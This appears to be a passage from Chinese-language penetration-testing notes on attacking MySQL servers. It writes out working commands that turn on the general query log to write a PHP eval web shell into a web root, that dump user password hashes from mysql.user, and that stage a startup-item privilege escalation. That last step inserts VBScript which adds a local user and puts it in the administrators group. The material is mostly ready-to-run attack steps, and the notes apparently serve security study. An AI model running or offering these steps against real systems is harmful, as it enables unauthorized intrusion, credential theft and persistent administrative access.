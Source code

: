 （3）日志写马

```
set global general_log=on;  #开启日志
set global general_log_file='C:/phpStudy/WWW/general.php'; #设置日志输出目录
select '<?php eval($_POST[123]) ?>'; #写入一句话，会被记录在日志文件里
```

#### 2.2 获取数据库的账号和密码

（1）通过读取一些数据库的配置文件
	数据库配置文件：命令规则（sql、data、inc、database、conn、config等）
（2）通过mysql数据库user表。在安装程序的data目录下（`select @@basedir；`），主要关注`user.myd`
	frm:表结构文件
	myd：数据库信息文件，存储数据信息
	myi：索引信息文件
	例：要获取mysql数据库下面的sqlin数据库的admin表的数据，那么对应的这个存储路径是？
		a、/data/mysql/admin.myd
		b、/data/mysql/admin.frm
		c、/data/sqlin/admin.myd √
		d、/data/sqlin/admin.frm
（3）利用mysql注入点，通过命令查询，需要root权限

```
select user,password from mysql.user;
select user,password from mysql.user where user='root';
```

### 3.MySQL数据库提权

#### 3.1 启动项提权

需要有mysql的create、insert和delete权限：

1、查看进入数据库中有些什么数据表

```
 mysql>use test;
 mysql>show tables;
```

默认的情况下，test中没有任何表的存在

以下为关键的部分

2、在TEST数据库下创建一个新的表a,表中只存放一个字段，字段名为cmd，为text文本；

 `mysql>create table a (cmd text);`

3、在表中插入内容

```
 mysql>insert into a values ("set wshshell=createobject (""wscript.shell"")");
 mysql>insert into a values ("a=wshshell.run (""cmd.exe /c net user ndsec ndsecpw /add"",0)");
 mysql>insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators ndsec /add"",0)");
```
